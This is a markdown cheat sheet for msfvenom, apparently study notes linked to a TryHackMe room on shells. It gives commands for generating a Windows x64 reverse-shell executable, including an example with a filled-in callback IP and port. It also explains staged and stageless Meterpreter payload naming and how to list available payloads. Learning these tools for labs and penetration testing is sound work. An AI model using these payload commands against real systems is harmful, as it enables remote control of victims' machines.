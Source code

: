 ### msfvenom

*********************************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
*********************************************************************************

### Standard msfvenom Syntax
```
msfvenom -p [PAYLOAD] [OPTIONS]
```
Generate a Windows x64 Reverse Shell:
```
msfvenom -p windows/x64/shell/reverse_tcp -f [FORMAT] -o [OUTPUT-FILE] LHOST=[LISTEN-IP] LPORT=[LISTEN-PORT]
```
Example:
```
msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=10.10.86.86 LPORT=4774
```

*********************************************************************************

### Payload Naming Conventions

Basic Convention:
```
[OS]/[ARCH]/[PAYLOAD]
```
Example:
```
linux/x86/shell_reverse_tcp
```
Windows 32bit Exception Example:
```
windows/shell_reverse_tcp
```
Stageless payloads are denoted with underscores _
```
shell_reverse_tcp
```
Staged payloads are denoted with another forward slash /
```
shell/reverse_tcp
```
* This rule applies to Meterpreter payloads
* Windows 64bit staged Meterpreter payload Example:
```
windows/x64/meterpreter/reverse_tcp
```
Linux 32bit stageless Meterpreter payload Example:
```
linux/x86/meterpreter_reverse_tcp
```

*********************************************************************************

### List All Available Payloads
```
msfvenom --list payloads
```
Can be used with grep:
```
msfvenom --list payloads | grep "linux/x86/meterpreter"
```

*********************************************************************************

### Reference
https://tryhackme.com/room/introtoshells

